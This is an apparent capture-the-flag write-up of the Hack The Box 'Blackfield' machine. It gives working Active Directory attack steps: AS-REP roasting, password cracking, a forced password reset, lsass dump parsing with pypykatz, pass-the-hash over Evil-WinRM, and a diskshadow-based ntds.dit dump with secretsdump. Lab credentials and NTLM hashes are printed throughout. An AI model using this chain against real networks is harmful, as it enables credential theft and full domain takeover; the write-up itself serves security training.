









## RUSTSCAN
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-01-10 19:13:58Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=252 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m00s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb2-time:
|   date: 2023-01-10T19:14:08
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 48702/tcp): CLEAN (Timeout)
|   Check 2 (port 64591/tcp): CLEAN (Timeout)
|   Check 3 (port 54820/udp): CLEAN (Timeout)
|   Check 4 (port 53637/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

* * *
## DNS
Seems like blackfield.htb is not the right FQDN?

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;blackfield.htb.                        IN      ANY

Edit: Coming back from SMB enumeration we can enumerate DNS with the real Domain name

`
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dig any blackfield.local @10.10.10.192

; <<>> DiG 9.18.8-1-Debian <<>> any blackfield.local @10.10.10.192
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 56941
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;blackfield.local.              IN      ANY

;; ANSWER SECTION:
blackfield.local.       600     IN      A       10.10.10.192
blackfield.local.       3600    IN      NS      dc01.blackfield.local.
blackfield.local.       3600    IN      SOA     dc01.blackfield.local. hostmaster.blackfield.local. 157 900 600 86400 3600
blackfield.local.       600     IN      AAAA    dead:beef::61c7:30ce:a9:2c0d

;; ADDITIONAL SECTION:
dc01.blackfield.local.  3600    IN      A       10.10.10.192
dc01.blackfield.local.  3600    IN      AAAA    dead:beef::61c7:30ce:a9:2c0d

;; Query time: 40 msec
;; SERVER: 10.10.10.192#53(10.10.10.192) (TCP)
;; WHEN: Tue Jan 10 12:22:49 CET 2023
;; MSG SIZE  rcvd: 199
`

Now we can add these informations in our hostfile.
* * *
## SMB
Let's try to enumerate SMB/RPC protocoll with Enum4linux-ng and see what can we gather.
`
======================================================
|    Domain Information via LDAP for blackfield.htb    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: BLACKFIELD.local

|    Domain Information via SMB session for blackfield.htb    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01
NetBIOS domain name: BLACKFIELD
DNS domain: BLACKFIELD.local
FQDN: DC01.BLACKFIELD.local
Derived membership: domain member
Derived domain: BLACKFIELD

 =================================================
|    OS Information via RPC for blackfield.htb    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null`

So far interesting informations about the Domainname but no SMB shares without a proper username and password. 
A new enumeration with support account get us more informations:
` ========================================
|    Shares via RPC on blackfield.htb    |
 ========================================
[*] Enumerating shares
[+] Found 7 share(s):
ADMIN$:
  comment: Remote Admin
  type: Disk
C$:
  comment: Default share
  type: Disk
IPC$:
  comment: Remote IPC
  type: IPC
NETLOGON:
  comment: Logon server share
  type: Disk
SYSVOL:
  comment: Logon server share
  type: Disk
forensic:
  comment: Forensic / Audit share.
  type: Disk
profiles$:
  comment: ''
  type: Disk
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[+] Mapping: OK, Listing: OK
[*] Testing share SYSVOL
[+] Mapping: OK, Listing: OK
[*] Testing share forensic
[+] Mapping: OK, Listing: DENIED
[*] Testing share profiles$
[+] Mapping: OK, Listing: OK`

We got an extensive list of users from domain(315 accounts) that i won't export here for oblivious reasons, but we got important informations about some SMB shares like **profiles** and **forensic**.

**PROFILES$:**
Recursive download showed that all those folders where empy which probably means we don't have read rights.

**FORENSIC:**
Seems like we can map the share but we can't list.. Can we maybe download the whole share anyway
Response: NO!

I think we need to make a step back and check againg our cards, we could maybe try to see if we can bruteforce one of the users we found in rpc enumeration, or try to surf ldap protocoll or check SYSVOL/NETLOGON to see if there are traces of user login in the xml files of the GPOs.

**USERS:**
SMB user enumeration via Crackmapexec shows a lot of users, mostly seems random non-sense except some:
SMB         blackfield      445    DC01             BLACKFIELD.local\support                        badpwdcount: 0 desc:
SMB         blackfield      445    DC01             BLACKFIELD.local\audit2020                      badpwdcount: 1 desc:
SMB         blackfield      445    DC01             BLACKFIELD.local\krbtgt                         badpwdcount: 0 desc: K
SMB         blackfield      445    DC01             BLACKFIELD.local\Guest                          badpwdcount: 0 desc: B
SMB         blackfield      445    DC01             BLACKFIELD.local\Administrator                  badpwdcount: 0 desc: B
SMB         blackfield      445    DC01             BLACKFIELD.local\lydericlefebvre                badpwdcount: 0 desc: 
SMB         blackfield      445    DC01             BLACKFIELD.local\svc_backup                     badpwdcount: 0 desc:

About those i would like specifically to target:
BLACKFIELD.local\svc_backup
BLACKFIELD.local\audit2020 
BLACKFIELD.local\lydericlefebvre

So we can save them and try to crack their password.

* * *
## KERBEROS
So far we have nothing tangible that can help us get a foothold, only thing that can we do is run Metasploit and bruteforce thru Kerberos protocoll to see what users we have and move forward:

`
msf6 auxiliary(gather/kerberos_enumusers) > run
[*] Running module against 10.10.10.192
[*] Using domain: BLACKFIELD - 10.10.10.192:88...
[+] 10.10.10.192:88 - User: "support" does not require preauthentication. Hash: $krb5asrep$23$support@BLACKFIELD.LOCAL:fceada05414c02207e7c803aa0f8f5ce$89189865c57bbd3030e9295274e604d07b6d5ae26f4d8be834a61861596fcfb6c1d8e78e3eb5e58dddc118135eaa0abd895a5280d9fdabe54d070abb02aa7ae3d0270dc827660cdea85bd38d9f60020fac977d6e67799e51ad7b89fdfb364ab25f0ef31984ef35bfb3e96a871bbcc81cdbd576d4bdd7c3d941460d4bc369da09e1d14f82d5d45cd525a532173c186eeb25b161cc35a40ca3b9178e71bbea3dbb749fdf06d91022e162292e7b7a83e6f3cbf5f21de159baa8940e15d3a8a1d9653d558448b0bfcb0dde9bb978bffdbec834fade7af1d73df120bd2d62655989d6f9d2a3daca70766c0088b60670
[+] 10.10.10.192:88 - User: "guest" is present
[+] 10.10.10.192:88 - User: "administrator" is present
`

Nice we have a kerberoastable user that have "Don't require pre-auth" set in AD.
Running John the ripper with Rockyou worlist get us cleartext passwords:

`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt support_blackfield.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
1g 0:00:00:04 DONE (2023-01-10 12:37) 0.2444g/s 3505Kp/s 3505Kc/s 3505KC/s #1WIF3Y..!sharks!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.`

support: #00^BlackKnight

Now we can move back to SMB and continue with our enumeration.
Other users  password crack lead to nowhere so I had to check for tips and apparently Bloodhound documentations mentions about a third party module written in Python that does the Sharphound work but remotely:
https://bloodhound.readthedocs.io/en/latest/data-collection/bloodhound-py.html
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound#python-bloodhound

Lunching this command will generate us all the data to be imported in Bloodhound gui:

└─# bloodhound-python -d 'BLACKFIELD.local' -u 'support' -p '#00^BlackKnight' -ns 10.10.10.192 -c all

Now data imported aside, we can search for us: support and we can check under node info->First Degree Object Control that support can reset Audit2020 password:

Now tried to import Powerview in the Powershell core in Linux but it's not working good, so checking back in Bookhacktricks we can apparently force a reset of password from our attacking machine via RPC:
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword

Launching this command will be password resetted for audit2020:

Now we can enumetare SMB share and try to see if we can login via WINRM.
* * *
## SMB as AUDIT2020
Loggin back to Forensic folder as AUDIT2020 we have access and we get some data:

From the tools folder we se volatility which we get an idea about what tool shold we use to read zip->dmp files from "memory_analysis" folder.
But first let's recurse download the whole share and unzip portions that we think are usefull, it will shod a dmp file that can be analyzed with volatility3:
 https://github.com/volatilityfoundation/volatility3
 
 About all those files, the one that sounds most interesting is lsass.zip:
 ┌──(aleksandar㉿DESKTOP-1KSM320)-[~/Downloads/blackfield.htb/memory_analysis]
└─$ ll
total 1056196
-rwxr-xr-x 1 root root  37876530 Jan 10 14:47 conhost.zip
-rwxr-xr-x 1 root root  24962333 Jan 10 14:47 ctfmon.zip
-rwxr-xr-x 1 root root  23993305 Jan 10 14:47 dfsrs.zip
-rwxr-xr-x 1 root root  18366396 Jan 10 14:47 dllhost.zip
-rwxr-xr-x 1 root root   8810157 Jan 10 14:48 ismserv.zip
-rw-r--r-- 1 root root 143044222 Feb 23  2020 lsass.DMP
-rwxr-xr-x 1 root root  41936098 Jan 10 14:48 lsass.zip
-rwxr-xr-x 1 root root  64288607 Jan 10 14:49 mmc.zip
-rwxr-xr-x 1 root root  13332174 Jan 10 14:49 RuntimeBroker.zip
-rw-r--r-- 1 root root 420344270 Feb 23  2020 ServerManager.DMP
-rwxr-xr-x 1 root root 131983313 Jan 10 14:50 ServerManager.zip
-rwxr-xr-x 1 root root  33141744 Jan 10 14:51 sihost.zip
-rwxr-xr-x 1 root root  33756344 Jan 10 14:51 smartscreen.zip
-rwxr-xr-x 1 root root  14408833 Jan 10 14:51 svchost.zip
-rwxr-xr-x 1 root root  34631412 Jan 10 14:52 taskhostw.zip
-rwxr-xr-x 1 root root  14255089 Jan 10 14:52 winlogon.zip
-rwxr-xr-x 1 root root   4067425 Jan 10 14:52 wlms.zip
-rwxr-xr-x 1 root root  18303252 Jan 10 14:52 WmiPrvSE.zip

Edit: Seems like volatility3 doesnät like the file, so I guess we need to use volatility2 instead... Edit: even volatility2 is not working
Surfing internet i stubled upon this article that shows another tool called pypykatz:
https://technicalnavigator.in/how-to-extract-information-from-dmp-files/

Fortunately it was already installed in my system:
Reading from binary help i can dump all the secrets from a memory file with this command:

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# pypykatz lsa minidump blackfield.htb/memory_analysis/lsass.DMP

And baam we have the NTLM hash of svc-backup on che dc01 machine:
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

Using the NT hash we can get a remote shell via "PASStheHash" function in Evil-Winrm and grab our first flag!
* * *
## PRIVESC
After we've grabbed our first flag we can start with some manual enumeration for PRIVESC vectors surfing around we found us a note that can lead us for potential tips:

Checking what group belong we and what permissions do we have?

Nothing on groups but we see we have some backup and restore priviledges, let's upload Winpeas and check for more.
Edit: Winpeas is failing with access denied, so we are alone here.
Running BLoodhound againg didn't gave us more informations.

Tried to export sam and system registry hives, and then read it with secretdump.py but Administrators hash didn't gave us a shell, i suspect is because it's a DC and we need to dump ntds.dit instead.
Checking both Bookhackricrs/hackinarticles i found this:
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators

Create a shadowcopy template:
nano yovecio.dsh
set context persistent nowriters
add volume c: alias yovecio
create
expose %yovecio% z:
unix2dos yovecio.dsh

Upload the file to C:\temp and create a shadowcopy of C: disk and link it to Z:
diskshadow /s yovecio.dsh

Now we can export ntds.dit from shadowcopy on Z: disk

Dump the registry hives of SAM and SYSTEM(will be used to decrypt Password hashes from NTDS.dit)

Now download ntds.dit and system file locally, now you can decrypt password hashes using impacket-secretdump:
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/blackfield.htb]
└─# impacket-secretsdump -ntds ntds.dit -system SYSTEM.SAV local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:3774928fe55833e6c62abdc233f47a7b:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::

Using NTHASH from Administrator and passwing the hash to Evil-Winrm we get access to to system and grab last flag.

* * *